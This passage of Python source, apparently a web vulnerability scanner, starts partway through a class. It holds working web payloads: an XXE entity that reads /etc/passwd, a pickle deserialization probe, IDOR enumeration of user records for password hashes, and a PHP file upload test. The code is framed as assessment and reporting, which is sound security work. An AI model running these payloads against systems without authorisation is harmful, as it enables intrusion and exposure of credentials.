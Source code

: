 ```python
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user><n>&xxe;</n></user>'''
        
        headers = {"Content-Type": "application/xml"}
        response = self.session.post(f"{self.base_url}/api/xml", 
                                   data=xxe_payload, headers=headers)
        
        if "root:" in response.text or "daemon:" in response.text:
            print("[+] XXE vulnerability found!")
            return True
        
        return False
    
    def test_deserialization(self):
        """Test for deserialization vulnerabilities"""
        print("[*] Testing Deserialization...")
        
        # Create test payload
        test_data = {"test": "data"}
        payload = base64.b64encode(pickle.dumps(test_data)).decode()
        
        data = {"data": payload}
        response = self.session.post(f"{self.base_url}/api/data", data=data)
        
        if "deserialized_object" in response.text:
            print("[+] Deserialization endpoint found!")
            return True
        
        return False
    
    def test_idor(self):
        """Test for IDOR vulnerabilities"""
        print("[*] Testing IDOR...")
        
        # Test user API endpoint
        for user_id in range(1, 5):
            response = self.session.get(f"{self.base_url}/api/users/{user_id}")
            if response.status_code == 200:
                data = response.json()
                if "password_hash" in data:
                    print(f"[+] IDOR found! User {user_id} data exposed")
                    return True
        
        return False
    
    def test_file_upload(self):
        """Test for file upload vulnerabilities"""
        print("[*] Testing File Upload...")
        
        # Create test file
        test_content = "<?php echo 'File upload test'; ?>"
        files = {"file": ("test.php", test_content, "text/plain")}
        
        response = self.session.post(f"{self.base_url}/upload", files=files)
        
        if "Upload Successful" in response.text:
            print("[+] Unrestricted file upload found!")
            return True
        
        return False
    
    def generate_report(self):
        """Generate vulnerability assessment report"""
```